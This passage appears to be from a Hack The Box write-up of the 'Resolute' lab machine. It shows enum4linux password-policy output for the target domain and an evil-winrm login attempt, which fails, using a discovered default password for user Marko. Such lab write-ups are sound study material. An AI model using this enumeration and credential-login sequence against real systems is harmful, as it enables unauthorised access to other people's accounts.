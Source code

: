 Password Policy Info:
```console
 ==================================================== 
|    Password Policy Information for 10.10.10.169    |
 ==================================================== 
[+] Password Info for Domain: MEGABANK

        [+] Minimum password length: 7
        [+] Password history length: 24
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: 1 day 4 minutes 
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 7
```
Oh `Marko` -- I hope you haven't started working at **MEGABANK** and `Welcome123!` isn't your fault. I am going to pull on this thread and see where it takes me.

# Exploitation 

## User Flag

I remembered from one of the last Windows machines I did, Heist, a pretty cool tool called [EvilWinRM](https://github.com/Hackplayers/evil-winrm). Since I have the `Marko`'s username and password I should be able to maybe use it to get in through one of the smb remote management flavors.

```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u marko -p Welcome123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```
